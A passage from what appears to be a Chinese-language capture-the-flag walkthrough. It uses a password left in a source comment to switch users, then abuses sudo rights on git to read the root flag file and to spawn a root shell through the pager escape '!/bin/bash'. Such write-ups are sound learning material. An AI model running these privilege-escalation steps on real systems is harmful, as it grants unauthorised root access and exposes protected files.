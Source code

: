 ```bash
# - Give this cred to the new intern for some tasks assigned to him - gbodja:4Tch055ouy370N
```

### 切换至gbodja用户

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737560.png" alt="image-20240319173133305" style="zoom:50%;" />

### 提权至root或直接读取flag

双喜临门，发现了一个可以利用`git`进行提权！不，可以直接读取flag！

```bash
git diff /dev/null /root/root.txt
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737561.png" alt="image-20240319173356159" style="zoom:50%;" />

提权方法如下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737562.png" alt="image-20240319173453555" style="zoom:50%;" />

尝试一下：

```bash
sudo git help config
!/bin/bash
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737563.png" alt="image-20240319173548448" style="zoom:50%;" />



